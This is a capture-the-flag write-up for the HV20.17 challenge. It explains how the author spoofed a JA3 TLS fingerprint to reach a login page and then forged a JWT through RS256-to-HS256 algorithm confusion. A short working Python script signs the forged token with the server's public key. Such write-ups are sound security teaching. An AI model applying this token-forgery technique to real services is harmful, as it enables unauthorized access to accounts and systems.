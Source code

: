 # HV20.17 Santa's Gift Factory Control

For this challenge, we get a link to a [website](https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/) that is protected using a [JA3 signature](https://github.com/salesforce/ja3). We also know that the signature has to match `771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0` for us to be able to access the site. As this signature is derived from a couple of system / browser parameters (supported ciphers, TLS versions, ...), it is not straightforward to fake it but after googling for a bit, I found a useful [tool](https://github.com/CUCyber/ja3transport) written in go that allows us to bypass the protection.

By using this tool, I was able to access the content of the site, but instead of a flag I got presented with another login form:

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8" />
    <title>Santa's Control Panel</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <link
      href="static/bootstrap/bootstrap.min.css"
      rel="stylesheet"
      media="screen"
    />
    <link
      href="static/fontawesome/css/all.min.css"
      rel="stylesheet"
      media="screen"
    />
    <link href="static/style.css" rel="stylesheet" media="screen" />
  </head>
  <body>
    <div class="login">
      <h1>Login</h1>
      <form action="/login" method="post">
        <label for="username">
          <i class="fas fa-user"></i>
        </label>
        <input
          type="text"
          name="username"
          placeholder="Username"
          id="username"
        />
        <label for="password">
          <i class="fas fa-lock"></i>
        </label>
        <input
          type="password"
          name="password"
          placeholder="Password"
          id="password"
        />

        <input type="submit" value="Login" />
      </form>
    </div>
  </body>
</html>
```

As we don't know any credentials, I adapted my script to try some obvious combinations, as well as SQL Injection attacks. Nothing of them really worked, but when using `admin` as the username I got back a different response including an obscure HTML comment (`<!--DevNotice: User santa seems broken. Temporarily use santa1337.-->`) and a session cookie with a JWT (`eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Ii9rZXlzLzFkMjFhOWY5NDUifQ.eyJleHAiOjE2MDgyMjEyMzAsImlhdCI6MTYwODIxNzYzMCwic3ViIjoibm9uZSJ9.PgZN4Lj52AwevSMKPWeTWFwe3QsGtm-oNp-UR0mGZRtrg59Kul9YoK_-Ufm6DcGIS_6mHQ-GXvl-UXdVxFca2u_yAqhL9FdUJhu-DXZ7RrWkTkoQ_45OJMREuWbbGOaMZ7AwzsGl49B7e4TkmL57J0Vtye32tRLmhpD-dEsQocAG--Bafv10z3ZuprXfjNJWTrghknxEPqZ-fEOdpVDQybev_31F9qHz7SrJxAzyFrbjEtbN4FBF3zEuaqqmHwim2g0XuZh_kHJ3prDB2FySfwmKusL4LiIYQKZ-oHWTQR9_cFPoeKURH82Huvk6jODbTqO-KP4MDEPEkLf8lZyZSA`).

This seems like an important hint. Firstly, we found out that the username should be `santa1337`. Moreover, we learned that the site is using JWT based authentication, which brings along a couple of new attack vectors. My first guess was an attack where we could change the `alg` attribute in the JWT header to `none` and strip the signature. Using this approach, we could forge a JWT with the `sub` attribute set to `santa1337` and bypass the login, but unfortunately it did not work.

After a while, I remembered another type of attack where we could trick servers by changing the JWT type from an asymmetric RSA signature (`RS256`) to a symmetric one (`HS256`) and sign the forged JWT with the public key of the server. If the application is vulnerable, it would verify the signature using it's private key and accept the forged token. Thankfully, we have access to the public key of the server, as it's path was specified in the JWT we already have (`/keys/1d21a9f945`). Using this path and our go program, we can download the [public key](./public_key.pem).

Now we have everything we need to create a forged JWT token that uses the `HS256` algorithm and gets signed with the public key from the application. For this purpose, I wrote another small [python script](./forge-jwt.py) (of course we need to make sure that the token is not expired before running the script):

```python
#!/usr/bin/env python3
import jwt

public = open('public_key.pem', 'r').read()
token = jwt.encode({
    "exp": 1608218097,
    "iat": 1608214497,
    "sub": "santa1337"
    }, key=public, algorithm='HS256', headers={'kid': '/keys/1d21a9f945'}).decode('ascii')

print(token)
```

Now we can take the output of this script and try to send it as the `session` cookie from within our go program. Using this approach, I was able to bypass both protection mechanisms and access Santa's secret control panel, where I could get the flag (hidden inside an HTML comment):

```bash
➜  17 git:(main) ✗ go run crack.go $(./forge-jwt.py) | grep HV20
<!--Congratulations, here's your flag: HV20{ja3_h45h_1mp3r50n4710n_15_fun}-->
```

**Flag:** HV20{ja3_h45h_1mp3r50n4710n_15_fun}
